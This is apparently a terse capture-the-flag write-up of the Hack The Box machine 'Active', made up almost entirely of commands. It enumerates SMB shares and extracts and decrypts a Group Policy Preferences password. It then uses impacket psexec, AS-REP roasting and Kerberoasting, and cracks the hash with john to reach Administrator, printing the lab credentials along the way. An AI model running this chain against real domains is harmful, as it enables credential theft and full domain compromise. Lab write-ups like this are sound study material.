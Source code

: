 Active
========================

    sudo nmap_enum active.htb | tee nmap_output.txt

Aqui sossegado:

    smbclient -L //10.10.10.100
    smbclient //10.10.10.100/Replication -c 'recurse true; ls'
    
![qownnotes-media-vtsXyC](../../../media/qownnotes-media-vtsXyC.png)

    smbclient //10.10.10.100/Replication
    cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
    get Groups.xml

# Exploitation

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


![qownnotes-media-jysviZ](../../../media/qownnotes-media-jysviZ.png)

    impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
    
    impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Privilege Escalation
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
![qownnotes-media-tKQdxa](../../../media/qownnotes-media-tKQdxa.png)

![qownnotes-media-qApPLP]([https://github.com/alisonocosta/InfraHacking/assets/12753100/2f24c0bc-737b-4feb-8114-89195af67a87](https://github.com/alisonocosta/InfraHacking/blob/main/.gitbook/assets/qownnotes-media-qApPLP.png))
.gitbook/assets/qownnotes-media-qApPLP.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    
    impacket-psexec 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
    
![qownnotes-media-WHXRui](../../../media/qownnotes-media-WHXRui.png)
